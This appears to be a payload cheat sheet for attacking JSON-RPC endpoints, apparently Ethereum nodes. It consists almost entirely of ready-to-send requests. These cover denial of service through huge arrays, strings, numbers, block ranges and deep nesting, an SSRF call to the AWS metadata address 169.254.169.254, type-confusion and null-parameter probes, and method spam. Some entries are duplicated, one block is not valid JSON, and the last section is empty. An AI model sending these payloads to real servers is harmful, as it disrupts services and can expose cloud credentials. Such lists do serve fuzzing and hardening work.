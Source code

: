 **Large Array DoS**
```json
{"arr":[0,1,2,…,99999]}
```
**Infinity Value Crash**
```json
{"value":9e9999}
```
**Oversized String Payload**
```json
{"str":"AAAA…(10MB)…AAAA"}
```
**Circular Reference Attack**
```json
{"$ref":"$"}
```
**AWS Metadata Root Access**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"http://169.254.169.254/"},"id":1}
```
**Deep Object Nesting**
```json
{"jsonrpc":"2.0","method":"echo","params":{"data":{"a":{"b":{"c":{"d":{"e":{}}}}}}},"id":2}
```
**Type Confusion (Array/Object)**
```json
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": {"number":"latest"}, "id": 1 }
```
**Deep Array Nesting**
```json
{"jsonrpc": "2.0", "method": "eth_getLogs", "params":[[[[deep]]]], "id": 1}
```
**Null Parameter Handling**
```json
{"jsonrpc": "2.0", "method":"eth_getBlockByNumber", "params": [null,null], "id": 1 }
```
**Missing Parameters**
```json
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "id": 1 }
```
**Type Confusion**
```json
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": [12345, false], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": {"number":"latest"}, "id": 1 }
```
**Deep Nesting**
```json
{"jsonrpc": "2.0", "method": "eth_getLogs", "params":[[[[deep]]]], "id": 1}
```
**Nulls & Missing Params**
```json
{"jsonrpc": "2.0", "method":"eth_getBlockByNumber", "params": [null,null], "id": 1 }
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "id": 1 }
```
**DoS payload**
- Huge Strings
```json
{"jsonrpc": "2.0", "method": "eth_getLogs", "params": ["0x" + "f".repeat(1_000_000)], "id": 1}
- Large Ranges
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": [{"fromBlock": "0x0", "toBlock": "0xFFFFFF"}], "id": 1}
```
**Bombing the server**
- Spam
```json
{ "jsonrpc": "2.0", "method": "non_existing_method", "params": [], "id": 1337}
```
**Method Abuse Payloads**
- Calling sensetive/restricted methods
```json
```